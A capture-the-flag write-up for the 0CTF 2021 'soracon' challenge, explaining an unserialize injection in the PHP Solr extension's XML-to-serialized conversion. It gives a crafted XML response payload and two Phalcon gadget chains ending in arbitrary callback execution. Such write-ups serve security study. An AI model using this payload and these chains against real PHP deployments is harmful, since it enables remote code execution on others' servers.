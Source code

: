 ### References

- [@zsx, Official WP, 2021-07-05](https://github.com/zsxsoft/my-ctf-challenges/tree/master/0ctf2021/soracon)
- [@byc_404, 0ctf/tctf-soracon, 2021-07-07](https://bycsec.top/2021/07/07/0ctf-tctf-soracon/)

**Tag: Unserialize injection, Solr extensions**

1.We can control the Solr response content, review the solr extensions's source code:

```c
PHP_METHOD(SolrResponse, getResponse) ->
solr_response_get_response_impl(INTERNAL_FUNCTION_PARAM_PASSTHRU,1)  ->
php_var_unserialize(return_value, &raw_resp, str_end, &var_hash)
```

It use `php_var_unserialize` to make `SolrObject`. `raw_resp` from `buffer.str`, `buffer` is processed in many different ways according to the if condition.

Trun on `display_errors` and test locally, it show:

```tex
Warning: SolrResponse::getResponse(): Error loading root of XML document in /var/www/html/index.php on line 9

Warning: SolrResponse::getResponse(): Error unserializing raw response. in /var/www/html/index.php on line 9

Fatal error: Uncaught SolrException: Error un-serializing response in /var/www/html/index.php:9 Stack trace: #0 /var/www/html/index.php(9): SolrResponse->getResponse() #1 {main} thrown in /var/www/html/index.php on line 9
```

this can therefore be determined that it will convert XML response. go to [`solr_encode_generic_xml_response`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/php_solr_response.c#L239)

```c
solr_encode_generic_xml_response(&buffer, ...)  ->
// <src/php7/solr_functions_helpers.c>
solr_encode_object(root, buffer, SOLR_ENCODE_STANDALONE, 0L, parse_mode)  ->
solr_encoder_functions[solr_get_xml_type((__node))]
```

the [`solr_encode_objec`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L1231) called [`solr_write_object_opener`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L654) to write a serialized string to the `buffer`, then called the [`solr_encode_xml_node`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L462) function to select the corresponding function for the different node types and convert the xml to php serialize.

```c
/* {{{ global variables solr_encoder_functions[], solr_document_field_encoders[] */
static solr_php_encode_func_t solr_encoder_functions[] = {
	solr_encode_string,
	solr_encode_null,
	solr_encode_bool,
	solr_encode_int,
	solr_encode_float,
	solr_encode_string,
	solr_encode_array,
	solr_encode_object,
	solr_encode_document,
	solr_encode_result,
	NULL
};
```

Pick any one, e.g. [`solr_encode_int`](https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L1142)

```c
/* {{{ static void solr_encode_int(const xmlNode *node, solr_string_t *buffer, solr_encoding_type_t enc_type, long int array_index, long int parse_mode) */
static void solr_encode_int(const xmlNode *node, solr_string_t *buffer, solr_encoding_type_t enc_type, long int array_index, long int parse_mode)
{
	solr_char_t *data_value = (solr_char_t *) solr_xml_get_node_contents(node);
	size_t data_value_len   = solr_strlen(data_value);
	solr_write_variable_opener(node, buffer, enc_type, array_index);
	solr_string_append_const(buffer, "i:");
	solr_string_appends(buffer, data_value, data_value_len);
	solr_string_appendc(buffer, ';');
}
/* }}} */
```

The `data_value` spliced directly into the serialised string without verifying that it is an integer. Here will convert `<int>123456</int>` to `i:12345`

So we can do Unserialize injection, just manually close all brackets. PHP will stop reading all the remaining characters if unserialization is done(**brackets are all closed**).

Use tcpdump sniffing in docker and look at the packets in wireshark: (<del>too lazy to install solr locally and debug<del> :p)

![](https://i.loli.net/2021/09/27/FqhypGPKDeIfBYi.png)

Then we can insert serialised data, which requires the closure of **5 brackets** (use fuzzing)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<response>
<result name="response" numFound="1" start="0" numFoundExact="true">
  <doc name="test">
    <int name="a">123;i:1;O:4:"XXXX":0:{}}}}}}</int>
    <int name="b">0</int>
  </doc>
</result>
</response>
```

now we can triggered unserialization, all we need is gadget chain.

2.in phpinfo.php we can find `phalcon` extension v4.1.2 installed. View it source code https://github.com/phalcon/cphalcon/tree/4.1.2-release, it's written in Zephir and will be compiled to C.

gadget chain:

```php
\Phalcon\Logger\Adapter\AbstractAdapter#__destruct()
    => this->commit() => <abstract>this->process(item)
\Phalcon\Logger\Adapter\Stream<extends AbstractAdapter>#process(<Item> item)
    => this->getFormatter()->format(item)
\Phalcon\Logger\Formatter\Line#format(<Item> item)
    => item->getMessage() <__call>
\Phalcon\Di#__call(string! method, array arguments = []) <getter>
    => this->get(possibleService, arguments) => service->resolve(parameters, this)
\Phalcon\Di\Service#resolve(parameters = null, <DiInterface> container = null)
    => builder->build(container, definition, parameters)
\Phalcon\Di\Service\Builder#build()
    => create_instance(className) & call_user_func_array(methodCall, this->buildParameters(container, arguments))
\Phalcon\Validation::class
    => add(var field, <ValidatorInterface> validator)
    => validate(var data = null, var entity = null) => validator->validate(this, field)
\Phalcon\Validation\Validator\Callback::validate(<Validation> validation, var field)
    => call_user_func(callback, data)
```

use the chain.php generating serialised payloads and use the rep.py responsed the payload

![](https://i.loli.net/2021/09/27/YZviw5e9NpIKhb4.png)

another chain from ROIS:

```php
\Phalcon\Logger\Adapter\AbstractAdapter#__destruct()
    => this->commit() => <abstract>this->process(item)
\Phalcon\Logger\Adapter\Stream<extends AbstractAdapter>#process(<Item> item)
    => this->getFormatter()->format(item)
\Phalcon\Logger\Formatter\Line#format(<Item> item)
    => item->getMessage() <__toString>
\Phalcon\Forms\Element\Date<extends AbstractElement>#__toString()
    => this->{"render"}() => this->prepareAttributes() => this->getValue() => form->getValue(name)
\Phalcon\Validation#getValue(string field)
    => this->entity->{method}()
\Phalcon\DataMapper\Pdo\ConnectionLocator#getWrite(string name = "")
    => this->getConnection("write", name) => call_user_func(collection[requested])
\Phalcon\Loader#loadFiles()
    => call_user_func(fileCheckingCallback, filePath)
```
